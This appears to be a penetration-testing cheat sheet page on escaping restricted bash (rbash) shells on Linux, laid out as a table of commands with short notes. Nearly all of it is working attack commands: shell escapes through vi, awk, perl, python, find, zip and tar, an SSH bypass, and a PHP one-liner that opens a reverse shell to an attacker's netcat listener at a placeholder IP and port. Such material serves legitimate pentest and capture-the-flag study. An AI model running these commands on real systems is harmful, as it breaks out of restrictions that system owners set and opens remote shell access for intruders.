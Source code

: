 # Linux PrivEsc CheatSheets
[Home](../index.md) | [CheatSheets](../cheatsheets.md) | [About](../about.md)

* [RBash Breakout](LinuxPrivEsc/RestrictedShells.md)
| Command 	| Notes 	|
|---	|---	|
| $SHELL 	| Determine if we are in an rbash shell (/bin/rbash) 	|
| ssh user@ip -t "bash --noprofile" 	| Bypass rbash if we can use SSH along with a known username and password 	|
| vi<br>:set shell=/bin/bash<br>:shell 	| Use vi or vim to breakout of rbash and use /bin/bash, alternatively could use any other shell. E.g zsh<br> 	|
| php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");' 	| Use PHP to create a reverse shell connection to a netcat listener on our machine @ IP:PORT, note we need to start <br>a netcat listener. 	|
| python -c 'import os; os.system("/bin/bash");'<br>python3 -c 'import os; os.system("/bin/bash");' 	| Use Python if available on the target system to escape rbash and spawn a generic bash shell. 	|
| awk 'BEGIN {system("/bin/bash")}' 	| Escape rbash using AWK 	|
| perl -e 'system("/bin/bash");' 	| Use PERL to escape rbash and spawn a bash shell 	|
| find / -name test -exec /bin/sh or /bin/bash \; 	| Use the find command to execute the /bin/bash binary 	|
| cp /bin/bash . 	| Copy the /bin/bash binary to your current directory, this only works if / is allowed. 	|
| zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash" 	| Use the zip command to spawn a bash shell, create a zip file first using touch.  	|
| tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash 	| Use the tar command to execute the bash binary upon archive creation. 	|
